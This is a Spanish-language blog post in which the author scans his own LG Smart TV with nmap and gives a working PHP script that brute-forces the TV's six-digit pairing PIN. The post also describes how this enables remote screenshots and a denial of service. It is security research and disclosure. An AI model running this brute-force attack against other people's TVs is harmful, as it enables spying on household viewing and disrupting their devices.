 ```yaml
---
title: Si tienes una Smart Tv de LG tu vecino puede espiar lo que estas viendo
author: Alevsk
type: post
date: 2015-08-17T05:26:19+00:00
url: /2015/08/smart-tv-hacking-lg-screenshot/
categories:
  - Ethical Hacking
  - Personal
  - Programming
  - Technology
tags:
  - hackers
  - Personal
  - Programming
  - Solutions
  - Technology

---
```

A mediados del año pasado compre una smart tv de 55 pulgadas de la marca LG, la idea era bastante simple, videojuegos xd, también ver series y películas en alta definición con la familia. La verdad es que no tengo tanto tiempo libre como para ver tv, sin embargo estos últimos días he tenido ganas de usar mi televisión, pero no de la forma convencional 🙂 

[![TV-LG-LM7600](/images/TV-LG-LM7600.jpg)](http://www.alevsk.com/2015/08/smart-tv-hacking-lg-screenshot/tv-lg-lm7600/)

Me puse a leer acerca de cómo funcionan las Smart Tvs, mas que nada para tener un background del tema, y vi que específicamente para este proveedor (LG) existe toda una comunidad detrás, foros, blogs, artículos y muchísimo material enfocado en el desarrollo para su plataforma **webOS**, pueden descargar y leer sobre la **sdk** en el siguiente enlace [http://developer.lge.com/webOSTV/](http://developer.lge.com/webOSTV/) 

Como muchos saben las **televisiones Smart** se conectan a **Internet** (en general los productos smart), esto significa que tienen asignada una **dirección IP** en nuestra red así que procedemos a realizar un escaneo de puertos utilizando nmap.

```bash
nmap -sV -p- -oA scan/scan -d 192.168.0.11
```

[![port](/images/port.png)](http://www.alevsk.com/2015/08/smart-tv-hacking-lg-screenshot/port/)

Viendo los logs del escaneo y leyendo el manual técnico sabemos que hay un par de servicios web corriendo en la televisión. 

De acuerdo con la documentación esta pagina es una especie de api en XML para enviar comandos directamente a la televisión :). Haciendo una búsqueda rápida en Google encontramos esta fabulosa librería en PHP de **Steve Winfield** que nos permite comunicarnos con las televisiones [https://github.com/SteveWinfield/PHP-LG-SmartTV](https://github.com/SteveWinfield/PHP-LG-SmartTV)

Lo único que necesitamos es un PIN de 6 dígitos que no conocemos, pero que podemos encontrar utilizando un ataque de fuerza bruta, que es lo que yo he hecho :). Con ayuda de este pequeño código es posible encontrar el PIN correcto de cualquier **Smart Tv de LG**

```php
<?php  
include 'PHP-LG-SmartTV/smartTV.php';  
$tv = new SmartTV('192.168.0.11',8080);  
$code = 100000;  
while(true) {  
$response = testCode($tv,$code);  
if($response) {  
print "The pairing key is: " . $code . "\n";  
break;  
}  
print "Wrong key: " . $code . "\n";  
$code++;  
}  
function testCode($tv,$code) {  
$tv->setPairingKey($code);  
try {  
$tv->authenticate();  
return true;  
} catch (Exception $e) {  
return false;  
}  
}  
?>
```

Después de unos minutos tenemos el PIN (pairing key) 

[![bruteforce](/images/bruteforce.png)](http://www.alevsk.com/2015/08/smart-tv-hacking-lg-screenshot/bruteforce/)

En esta etapa del experimento descubrí cosas interesantes 

  * Durante el ataque de fuerza bruta, al inicio de cada negociación de autenticación en la pantalla de la televisión aparece el PIN de 6 dígitos (dura menos de 1 segundo y después desaparece por que estamos intentando cientos de veces cada segundo), esto es así por que se supone que tenemos acceso físico a la pantalla, ósea estamos en la misma habitación, y debemos de copiarlo para usarlo con la librería. 
  * Si realizamos suficientes peticiones en un segundo esto ocasionara un ataque de denegación de servicios a la televisión! El control remoto deja de funcionar y básicamente no podemos hacer nada, la única forma de apagar la tv es desconectarla directamente de la toma de corriente.

![bruteforce](https://i.giphy.com/3oEdvdvqMXCtl3Ux5S.gif)
<center>
<em>Así que ya saben, si notan un comportamiento de este tipo significa que alguien en su red esta tratando de hackear su televisión :p </em>
</center>

Tener el **PIN** de autenticación de la televisión significa que básicamente podemos controlarla como si tuviéramos en control en nuestras manos, podemos apagarla, cambiar de canal, subir volumen, bajar volumen, programar despertador, por mencionar algunos ejemplos. 

Sin embargo creo que el comando mas interesante de todos es **TV\_INFO\_SCREEN**, y por el que la mayoría de ustedes esta aquí, **TV\_INFO\_SCREEN** nos permite tomar una captura de pantalla de lo que sea que se esta reproduciendo en la televisión, con ayuda de JavaScript y un poco de Ajax se puede hacer una pequeña interfaz web para visualizar las imagenes de una forma mas “cómoda". 

![test](https://i.giphy.com/l0O9xnJjIUqWX59S0.gif)
<center>
</center>

## Resumiendo

  * Los servicios web que corren las televisiones se ejecutan en puertos bien conocidos y no hay forma de cambiarlos (al menos no he encontrado como todavía)
  * Un atacante remoto puede realizar ataques de fuerza bruta para obtener el PIN de 6 dígitos
  * Un atacante remoto puede ocasionar un ataque de denegación de servicios a la televisión
  * Un atacante remoto puede obtener capturas de pantalla de lo que estamos viendo

Continuare haciendo mas investigación en esta area a ver que encuentro 🙂  
**Happy hacking**